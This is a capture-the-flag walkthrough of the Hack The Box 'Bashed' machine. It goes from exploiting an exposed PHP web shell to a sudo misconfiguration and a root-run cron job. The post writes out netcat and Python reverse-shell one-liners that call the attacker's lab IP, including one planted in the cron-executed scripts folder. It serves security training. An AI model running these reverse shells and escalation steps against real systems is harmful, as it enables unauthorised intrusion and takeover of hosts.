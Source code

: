 ```yaml
---
title: "Hack The Box - Bashed"
date: 2020-01-21
tags: [oscp, htb, linux]
published: true
---
```


- [Machine Info](#machine-info)
- [Enumeration](#enumeration)
- [Initial Shell](#initial-shell)
  - [Enumerate with web shell](#enumerate-with-web-shell)
- [Privlege Escalation](#privlege-escalation)
  - [Sudoers file](#sudoers-file)
  - [Upgrading the shell](#upgrading-the-shell)
  - [Upgrading the shell (again!)](#upgrading-the-shell-again)
  - [Poking the scripts folder](#poking-the-scripts-folder)
  - [Adding our own exploit](#adding-our-own-exploit)

---

## Machine Info

![](/assets/htb-bashed/machine_info.png)

## Enumeration

Nmap scans show only port 80 is open, running Apache 2.4.18 for Ubuntu.

```
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.050s latency).
Scanned at 2020-01-20 23:22:13 EST for 51s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

The home page talks about a PHP webshell called `bashed` that the owner created, on this very site. Further investigation with Gobuster shows the below directories.

```
/about.html (Status: 200) [Size: 8190]
/config.php (Status: 200) [Size: 0]
/contact.html (Status: 200) [Size: 7802]
/css (Status: 301) [Size: 308]
/dev (Status: 301) [Size: 308]
/fonts (Status: 301) [Size: 310]
/images (Status: 301) [Size: 311]
/index.html (Status: 200) [Size: 7742]
/index.html (Status: 200) [Size: 7742]
/js (Status: 301) [Size: 307]
/php (Status: 301) [Size: 308]
/single.html (Status: 200) [Size: 7476]
/uploads (Status: 301) [Size: 312]
```

---

## Initial Shell

### Enumerate with web shell

Navigating to the `/dev` direcotry, it brings us to a directory listing, which includes a copy of `phpbash.php`. Clicking on `phpbash.php` immediatly places us into the `bashed` webshell mentioned on the homepage. With the `id` and `whoami` commands, we can see that we're running as `www-data`.

![](/assets/htb-bashed/phpbash_initialshell.png)

Some further poking with `uname -a` and `cat /etc/issue` shows that we're on a Ubuntu 16.04 system, running kernel version 4.4.0.

![](/assets/htb-bashed/wwwdata_enum_version.png)

We can confirm with `which nc` that netcat is already installed, which will help with any reverse shells going forward. We can also see a list of user directories with `ls -la /home`.

![](/assets/htb-bashed/wwwdata_nc_homedirs.png)

Besides the obvious `arrexel` username that we assumed from the homepage, there appears to be another user called `scriptmanager`. Both directories look to be readable by `www-data`. Looking in the `/home/scriptmanager` directory shows it's empty, and none of the files are readbale by our current user. We can however navigate to `/home/arrexel` and read `user.txt`.

![](/assets/htb-bashed/user_proof.png)

---

## Privlege Escalation

### Sudoers file

At this point, it makes sense to check if maybe `www-data` has more permissions then it seems. We can use `sudo -l` to see if there are any entires in the sudoers file, which might allow us access as a different user.

![](/assets/htb-bashed/wwwdata_sudoers.png)

Looks like `www-data` can use `sudo` to run any command as `scriptmanager` with no password needed.

### Upgrading the shell

When we try to run anything as `sudo` however, we get a message that *no tty present*. This is common in webshells. It also means it's time to upgrade our shell with netcat.

We first need to start a listener on our machine with `nc -lvnp 7500`. Once that's setup, we can run `/bin/sh | nc 10.10.14.12 7500` on the webshell to kick off the reverse shell.

> NOTE: Although `nc` is installed, it's the OpenBSD version, which does not include the `-e` option to execute a program on conneciton. Instead, we have to pipe `/bin/sh` into the `nc ` command to get the shell.

![](/assets/htb-bashed/revshell_failed.png)

Looks like this is very unstable, and dies right away. Let's try a Python reverse shell with the below command. Don't forget to restart your `nc` listener as well.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",7500));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](/assets/htb-bashed/python_revshell.png)

It workes! Now we have to upgrade the shell to properly run the `sudo` commands we need. We can upgrade to a good `bash` shell with `python -c 'import pty;pty.spawn("/bin/bash")'`. Once that shell is spawned, we need to issue some commands to get a good TTY shell.

```shell
CTRL-Z # Sends the netcat session to the background
stty raw -echo # Properly sets terminal to pass CTRL-* commands to the netcat session
fg # Brings the netcat sesison back up
```

![](/assets/htb-bashed/upgraded_python_shell.png)

### Upgrading the shell (again!)

Now that we have access to a TTY shell, we can confirm that using `sudo -u scriptmanager` before a command will run it as `scriptmanager` without the need for a password. HOwever, this can get tiresome really fast. To bypass this, we can simply run `sudo -u scriptmanager /bin/bash`, which will open a `bash` shell as `scriptmanager`.

### Poking the scripts folder

Now that we're finally in a solid shell as `scriptmanager`, we can go poking around.

Running `ls -la /` shows a directory called `/scripts` at the drive root, and it's owned by `scriptmanager`.

![](/assets/htb-bashed/scripts_directory.png)

Inside `/scripts` are two files, `test.py` and `test.txt`. When we read `test.py`, we can see that it simply reads the content of `test.txt`.

![](/assets/htb-bashed/scripts_dir_contents.png)

We can modify the file to test it out with a `ping` back to our machine.

```shell
echo "import os" >> test.py
echo "ip = '10.10.14.12'" >> test.py
echo "command = os.system('ping -c 5 ' + ip)" >> test.py
```

This adds the lines to the existing `test.py` scirpt. We can see the new file below:

```shell
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
import os
ip = '10.10.14.12'
command = os.system('ping -c 5 ' + ip)
```

When we run the script with `python test.py`, we can see the pings going thorugh. We can test this on our end with a `tcpdump` listener using `tcpdump -i tun0 icmp`.

![](/assets/htb-bashed/tcpdump_initial.png)

### Adding our own exploit

In the process of testing, I noticed immediatly that the 5 pings from the `test.py` script were followed up by another 5 pings within the time it took me to take a screenshot. This leads me to beleive that there must be a cronjob running to execute scripts in the `/scripts` folder. If this is the case, then we have our path to `root`.

We can make a simple python script that will initiate a reverse shell when run, using the below command:

```shell
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",7700));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > root_shell.py
```

We setup the listener with `nc -lvnp 7700` and wait. Sure enough, we get a shell back after a short while.

![](/assets/htb-bashed/root_shell.png)

We got `root`! Let's grab the flag.

![](/assets/htb-bashed/root_proof.png)

When we check the `cron` list for `root`, we can see that it was in fact running every `*.py` script in `/scripts`.

![](/assets/htb-bashed/root_cron.png)
